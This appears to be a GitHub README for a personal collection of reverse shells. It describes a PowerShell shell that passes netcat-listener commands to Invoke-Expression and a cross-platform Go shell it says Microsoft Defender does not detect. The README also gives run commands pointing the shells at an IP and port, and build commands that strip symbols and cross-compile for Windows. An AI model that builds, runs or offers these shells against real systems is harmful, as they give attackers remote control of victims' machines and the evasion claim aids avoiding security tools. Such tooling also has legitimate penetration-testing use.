 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects propert shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>
